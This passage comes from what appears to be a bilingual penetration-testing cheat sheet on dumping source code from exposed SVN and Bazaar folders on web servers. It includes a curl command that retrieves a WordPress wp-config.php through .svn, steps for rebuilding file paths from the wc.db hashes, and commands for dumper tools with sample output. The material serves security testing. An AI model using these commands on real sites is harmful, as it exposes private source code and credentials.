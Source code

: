 ```powershell
go get -u github.com/zricethezav/gitleaks
```

## SVN - Source code management

### SVN example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. 从 http://server/path_to_vulnerable_site/.svn/wc.db下载svn数据库

	```powershell
	INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
	```

2. 下载有趣的东西

	* 删除 \$sha1\$ prefix
	* 添加 .svn-base 后缀
	* 使用hash中的前两个符号作为pristine /目录中的文件夹名称（本例中为94）
	* 创建完整路径，比如: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`

### Automatic way : svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## BAZAAR - Source code management

### Automatic way : rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-git.pl -v -u  
```

### Automatic way : bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)                                                                                                                                                       
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
```